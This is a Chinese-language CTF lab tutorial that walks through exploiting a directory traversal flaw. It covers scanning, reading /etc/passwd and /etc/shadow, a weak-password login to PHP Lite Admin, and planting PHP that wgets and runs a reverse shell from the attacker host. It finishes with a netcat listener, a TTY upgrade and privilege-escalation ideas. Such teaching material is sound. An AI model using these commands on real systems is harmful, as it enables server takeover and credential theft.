





# CTF夺旗赛教程：P16：目录遍历漏洞利用实战 🚩

## 概述
在本节课中，我们将学习Web安全中的目录遍历漏洞。我们将从信息收集开始，逐步探测目标，发现并利用目录遍历漏洞，最终上传Web Shell，获取目标服务器的反弹Shell，为后续的权限提升打下基础。

## 目录遍历漏洞简介
目录遍历漏洞，也称为路径遍历攻击。其核心目的是访问存储在Web根目录之外的文件和目录。攻击者通过操纵带有“点斜线”（`../`）序列或其变体的变量，或使用绝对文件路径来引用文件，从而访问文件系统上的任意文件和目录。

**核心概念**：通过构造类似 `../../../etc/passwd` 的路径参数，尝试读取系统文件。

需要注意的是，系统的访问控制（如文件权限）会限制此类访问。例如，在Windows或Linux系统上，如果文件被设置为不可读，即使存在目录遍历漏洞，也无法读取其内容。

上一节我们介绍了目录遍历的基本概念，本节中我们来看看如何在实际环境中发现和利用它。

## 实验环境搭建
*   **攻击机**：Kali Linux， IP地址：`192.168.1.106`
*   **靶机**：Linux系统， IP地址：`192.168.1.104`

我们的最终目标是获取靶机的root权限并读取flag值。所有后续操作都将围绕此目标展开。

## 第一步：信息收集与探测
在获得目标IP地址后，首先需要对目标进行全面的信息探测。

### 1. 扫描开放服务及版本
我们使用 `nmap` 工具进行初步扫描，获取靶机开放的服务及其版本信息。

**命令**：
```bash
nmap -sV 192.168.1.104
```
执行此命令后，`nmap` 会向目标发送探测包并分析响应，最终输出开放的服务列表。

### 2. 全面信息探测
为了获取更详细的信息（如操作系统类型、路由跟踪等），我们可以使用 `nmap` 的“全面扫描”模式。



**命令**：
```bash
nmap -T4 -A -v 192.168.1.104
```
参数说明：
*   `-T4`：设置扫描速度为最快。
*   `-A`：启用操作系统检测、版本检测、脚本扫描和路由跟踪。
*   `-v`：显示详细输出。

扫描结果显示，目标开放了80端口的HTTP服务。这为我们后续的Web渗透提供了入口。

### 3. Web服务指纹识别
针对开放的HTTP服务，我们可以使用 `nikto` 工具进行漏洞扫描和指纹识别。



**命令**：
```bash
nikto -h http://192.168.1.104
```
`nikto` 会检查Web服务器配置、潜在的危险文件、过时的软件版本等。

### 4. Web目录枚举
同时，我们可以使用 `dirb` 工具来暴力枚举网站可能存在的隐藏目录和文件。

**命令**：
```bash
dirb http://192.168.1.104
```
`dirb` 使用内置的字典文件进行探测，能够发现像后台管理页面、配置文件等敏感路径。

信息收集完成后，我们需要对结果进行分析。`nikto` 和 `dirb` 的扫描结果中，发现了一个疑似数据库管理后台的路径：`/dbadmin`。通过浏览器访问该路径，发现了一个 `testDB.php` 页面，这是一个PHP Lite Admin数据库管理界面。

## 第二步：漏洞挖掘与确认
为了系统性地发现漏洞，我们使用专业的Web漏洞扫描器 OWASP ZAP。

启动ZAP并对目标URL (`http://192.168.1.104`) 进行“攻击”扫描。扫描器会自动爬取站点并测试各种漏洞。

扫描结束后，在“警报”选项卡中，我们发现了一个**高危漏洞**——目录遍历。详细信息显示，访问特定的URL可以读取 `/etc/passwd` 文件内容。

**漏洞验证**：
在浏览器中直接访问ZAP提供的漏洞URL（例如 `http://192.168.1.104/vulnerable.php?file=../../../etc/passwd`），成功显示了 `/etc/passwd` 文件的内容，确认漏洞存在。

我们可以尝试修改路径，读取其他文件，如 `/etc/shadow`（存储加密密码的文件）：
```
http://192.168.1.104/vulnerable.php?file=../../../etc/shadow
```
如果服务器权限设置严格，可能无法读取 `shadow` 文件。

## 第三步：漏洞利用与Web Shell上传
确认目录遍历漏洞后，我们的思路是：**上传一个Web Shell到服务器，然后通过目录遍历漏洞访问并执行该Shell，从而在攻击机上获得一个反向连接（反弹Shell）**。

### 1. 寻找文件上传点
我们之前发现的 `/dbadmin/testDB.php` 是一个数据库管理后台。尝试使用弱口令（如用户名 `admin`，密码 `admin` 或 `123456`）进行登录，并成功进入后台。

在后台中，寻找可以写入数据或文件的功能点。我们发现可以通过创建数据库和数据表，并将PHP代码写入数据表字段的方式，来间接“写入”一个文件。

### 2. 准备Web Shell
Kali Linux中自带了许多Web Shell脚本。我们使用一个PHP反弹Shell脚本。

**操作步骤**：
1.  找到并复制Web Shell文件到桌面：
    ```bash
    cp /usr/share/webshells/php/php-reverse-shell.php /root/Desktop/
    cd /root/Desktop
    mv php-reverse-shell.php shell.php
    ```
2.  编辑 `shell.php`，修改其中的IP和端口为攻击机的监听地址：
    ```php
    $ip = '192.168.1.106'; // 攻击机(Kali)的IP
    $port = 4444; // 攻击机监听的端口
    ```

### 3. 通过数据库写入Web Shell代码
在PHP Lite Admin后台中：
1.  创建一个名为 `shell.php` 的数据库。
2.  在该数据库中创建一张表，例如表名为 `cmd`。
3.  添加一个文本类型（TEXT）的字段，例如字段名为 `exec`。
4.  在该字段中，插入一段能下载并执行我们Web Shell的PHP代码。代码如下：
    ```php
    <?php system("cd /tmp; wget http://192.168.1.106:8000/shell.php; chmod +x shell.php; php shell.php"); ?>
    ```
    *这段代码的作用是：切换到 `/tmp` 目录，从攻击机的8000端口HTTP服务下载 `shell.php` 文件，赋予执行权限，然后运行它。*

### 4. 搭建简易HTTP服务器并启动监听
我们需要在攻击机上做两件事：提供Web Shell下载服务，并准备接收反弹Shell。

1.  **启动HTTP服务器**（在存放 `shell.php` 的目录下）：
    ```bash
    cd /root/Desktop
    python -m SimpleHTTPServer 8000
    ```
    现在，可以通过 `http://192.168.1.106:8000/shell.php` 访问到这个文件。

2.  **启动Netcat监听器**（等待反弹Shell连接）：
    ```bash
    nc -nlvp 4444
    ```

### 5. 触发Web Shell执行
现在，利用之前发现的目录遍历漏洞，去访问数据库文件。数据库文件通常位于 `/var/lib/mysql/[数据库名]/[表名].MYD` 或类似路径。通过目录遍历，构造URL访问我们创建的、包含PHP代码的数据库文件。

例如，访问：
```
http://192.168.1.104/vulnerable.php?file=../../../var/lib/mysql/shell.php/cmd.MYD
```
当服务器尝试“读取”这个 `.MYD` 文件时，由于其中包含 `<?php ... ?>` 标签，且文件路径被当作PHP文件解析（取决于服务器配置），其中的PHP代码就会被执行。

代码执行后，靶机会从攻击机下载 `shell.php` 并运行，从而在攻击机的 `nc` 监听器上建立一个反向Shell连接。

## 第四步：获取交互式Shell与后续思路
成功接收到反弹Shell后，我们可能只获得了一个简单的、功能受限的Shell。





1.  **升级为完全交互式TTY Shell**：
    ```bash
    python -c 'import pty; pty.spawn("/bin/bash")'
    ```
    或者
    ```bash
    /bin/bash -i
    ```
    如果Python可用，第一种方法通常更稳定。

2.  **检查当前权限**：
    ```bash
    whoami
    id
    ```
    此时获得的用户权限很可能是 `www-data`（Web服务账户），并非root。

3.  **权限提升思路**：
    *   **利用目录遍历获取的敏感信息**：之前可以读取 `/etc/passwd` 和 `/etc/shadow`（如果允许）。可以将这两个文件下载，使用 `unshadow` 工具组合，然后用 `john` 或 `hashcat` 进行密码破解。如果破解出其他高权限用户的密码，可尝试切换用户。
    *   **系统内核漏洞提权**：在Shell中运行 `uname -a` 查看内核版本，搜索对应的本地提权漏洞。
    *   **SUID文件滥用**：查找具有SUID权限的可执行文件 `find / -perm -u=s -type f 2>/dev/null`，看看是否有可利用的（如 `nmap`, `vim`, `find`, `bash` 等）。
    *   **计划任务（Cron Job）**：检查 `/etc/crontab`，看是否有以root权限运行的可写脚本。

## 总结
本节课中，我们一起学习了目录遍历漏洞的完整利用链：

1.  **信息收集**：使用 `nmap`, `nikto`, `dirb` 等工具探测目标，发现Web服务及敏感路径。
2.  **漏洞确认**：使用OWASP ZAP扫描并确认目录遍历漏洞，手动验证可读取 `/etc/passwd`。
3.  **利用准备**：在发现的数据库管理后台中，通过弱口令登录，并利用其功能将PHP代码写入数据库。
4.  **Shell获取**：准备PHP反弹Shell脚本，在攻击机开启HTTP服务和Netcat监听。最后通过目录遍历漏洞触发数据库文件中的PHP代码执行，成功获得反向Shell。
5.  **后续方向**：将获得的简单Shell升级为交互式Shell，并开始进行权限提升的探索。



目录遍历漏洞的危害不仅在于直接读取敏感文件，更在于它能与其他漏洞（如文件上传、代码注入）结合，形成强大的攻击链，最终完全控制服务器。